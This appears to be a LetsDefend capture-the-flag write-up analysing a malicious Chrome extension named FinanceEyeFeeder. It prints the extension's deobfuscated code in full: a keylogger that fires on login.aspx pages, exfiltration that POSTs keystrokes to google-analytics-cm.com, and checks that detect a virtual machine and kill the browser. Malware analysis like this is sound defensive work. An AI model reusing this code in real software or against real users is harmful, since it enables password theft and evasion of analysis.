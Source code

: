 # Suspicious Browser Extension - Let's Defend https://app.letsdefend.io/challenge/suspicious-browser-extension

For this challenge, we're given a `.crx` file which is a Chrome extension file. We can confirm this by running `file` on it:

![](https://i.imgur.com/gqYjnxu.png)

Browser extensions are typically `.zip` files that contain the elements that make up the extension such as any Javascript, HTML, or other assets like the images associated with the extension. Knowing this, we can simply `.unzip` the extension to perform further analysis:

`unzip FinanceEYEfeeder.crx`

![](https://i.imgur.com/4o0rjIu.png)

The main file in browser extensions that typically has metadata is the `manifest.json` file which was extracted. The `manifest.json` file allows for an extension to specify metadata such as its name, description, version, etc.

The metadata of our suspicious browser extension includes:

![](https://i.imgur.com/exoJKa7.png)

The extension's name is FinanceEyeFeeder and it's described as being "a *trusted* utility for reading financial news." 

As you can see from the screenshot of when we unzipped the `.crx` file, there are 2 Javascript files associated with it. You can also see how these files are referenced in the manifest file:

* `background.js` which is set to run in the background
* `content.js` which is set to run in the context of a webpage, meaning it can read webpage elements, modify those elements, and pass info to their parent extension
  * Reference: https://developer.chrome.com/docs/extensions/mv3/content_scripts/

Now that we know the name of the extension, we can visit `crxcavator.io` to search for the extension by name to see if it's known.

* *NOTE https://crxcavator.io is an extension scanner that will tell you how risky a browser extension is using factors such as: the permissions the extension requires, the vulnerable 3rd party Javascript libraries it uses, etc*

![](https://i.imgur.com/pqWQiQ8.png)

Unfortunately `crxcavator` hasn't scanned our extension yet. 

We'll now move on to using another tool known as [ExtAnalysis](https://github.com/Tuhinshubhra/ExtAnalysis) to further analyze the extension

*NOTE: You may have to downgrade your pip version before installing the requirements necessary for running ExtAnalysis. I had to downgrade to version 21.3.1 by running pip install pip==21.3.1*

Once ExtAnalysis is installed, run it using `python3 extanalysis.py` and you'll be taken to a webpage where you can upload the `.crx` file.

Once it's uploaded, you'll be presented with an analysis report which can be accesed by going to `analysis reports > reload reports > view`

![](https://i.imgur.com/uQIoaYE.png)

The **author** of the extension is unknown and there are 2 **unique domains & extracted URLs**. 

We can begin analyzing the 2 javascript files within the extension by going to files > view source for `background.js`:

![](https://i.imgur.com/wuV0xVO.png)

We can then use [a javascript deobfuscator](https://deobfuscate.io/) to make the code easier to read:

```javascript
function c() {
  var o = ["apply", "nction() ", "console", "info", "key", "responseTe", "txt", "setRequest", "ded", "onMessage"];
  c = function () {
    return o;
  };
  return c();
}
function d(a, b) {
  var e = c();
  return d = function (f, g) {
    f = f - 0;
    var h = e[f];
    return h;
  }, d(a, b);
}
var b = function () {
  var e = true;
  return function (f, g) {
    var h = e ? function () {
      if (g) {
        var i = g[d(0)](f, arguments);
        return g = null, i;
      }
    } : function () {};
    return e = false, h;
  };
}(), a = b(this, function () {
  var f;
  try {
    var g = Function("return (fu" + d(1) + '{}.constructor("return this")( )' + ");");
    f = g();
  } catch (n) {
    f = window;
  }
  var h = f[d(2)] = f.console || {}, i = ["log", "warn", d(3), "error", "exception", "table", "trace"];
  for (var j = 0; j < i.length; j++) {
    var k = b.constructor.prototype.bind(b), l = i[j], m = h[l] || k;
    k.__proto__ = b.bind(b), k.toString = m.toString.bind(m), h[l] = k;
  }
});
a();
function handleMessage(e) {
  data = d(4) + e[d(4)] + "&page=" + e.page;
  var f = new XMLHttpRequest;
  f.onload = function () {
    console(this[d(5) + "xt"]);
  }, f.open("POST", "https://google-analytics-cm.com/analytics-3032344." + d(6), true), f[d(7) + "Header"]("Content-Type", "application/x-www-form-urlenco" + d(8)), f.send(data);
}
chrome.runtime[d(9)].addListener(handleMessage);
```

The `handleMessage` function is responsible for exfiltrating some data and POSTing it to the specified URL, but the URL is currently obfuscated. 

Deobfuscation is handled by the `c`, `d`, `b`, & `a` functions. We can deobfuscate the URL by simply pasting the functions into a browser console, then putting the URL deobfuscation process into a variable & calling that variable:

![](https://i.imgur.com/pAEDRE7.png)

The URL we get is `https://google-analytics-cm[.]com/analytics-3032344.txt`

Let's move on to investigate the other javascript file, `content.js`:

![](https://i.imgur.com/BWnMq6I.png)

Running through the deobfuscator:

```javascript
chrome.runtime.onConnect.addListener(function (_0x8616x1) {});
chrome.webRequest.onBeforeRequest.addListener(function (_0x8616x2) {
  if (_0x8616x2.url == str.match("^(.*[/])?login.aspx([?].*)?$")) {
    var _0x8616x3 = "";
    var _0x8616x4 = {};
    window.onkeydown = function (_0x8616x5) {
      if (_0x8616x5.key.length > 1) {
        _0x8616x3 = " (" + _0x8616x5.key + ") ";
      } else {
        _0x8616x3 = _0x8616x5.key;
      }
      ;
      _0x8616x4 = {key: _0x8616x3, page: window.location.href};
      chrome.runtime.sendMessage(_0x8616x4);
    };
  }
});
```

The job of this file is to activate a keylogger if the user visits any URL that ends in `login.aspx`, indicating a login page. 

We can now move on to analyzing the `ThankYou.html` file which appeared to be suspicious:

```html
                <!DOCTYPE html>
<html>
<body onload="FinanceSorter()">

<script>
chrome.processes.getProcessInfo(); 
function FinanceSorter() {
  var canvas = document.createElement('canvas');
  var gl = canvas.getContext('webgl');
  var debugInfo = gl.getExtension('WEBGL_debug_renderer_info');
  var vendor = gl.getParameter(debugInfo.UNMASKED_VENDOR_WEBGL);
  var renderer = gl.getParameter(debugInfo.UNMASKED_RENDERER_WEBGL);

  var width = screen.width;
  var height = screen.height;
  var color_depth = screen.colorDepth;

  setTimeout(function(){
    if (true) {
      if (/swiftshader/i.test(renderer.toLowerCase()) || /llvmpipe/i.test(renderer.toLowerCase()) || /virtualbox/i.test(renderer.toLowerCase()) || /vmware/i.test(renderer.toLowerCase()) || !renderer){
        console.log("检测到")
        chrome.processes.terminate(0);
      }
        else if (color_depth < 24 || width < 100 || width < 100 || color_depth){
          console.log("检测到")
          chrome.processes.terminate(0);
      }

    }
  }, 200);  
}
</script>

</body>
</html>
```

This HTML file has the responsibility of detecting if the extension is running in a virtual machine. If it is is, then it terminates the Google Chrome process and logs the word "Detected" in Chinese to the browser's console. It attempts to detect this by searching for certain renderers, specifically vmware, virtualbox, and llvmpipe. It also attempts to detect if its running in a VM by looking at the machine's color depth. 

If you have been infected with this extension previously, it's recommended that you change your passwords and ensure that you only install extensions that are reputable.

# 
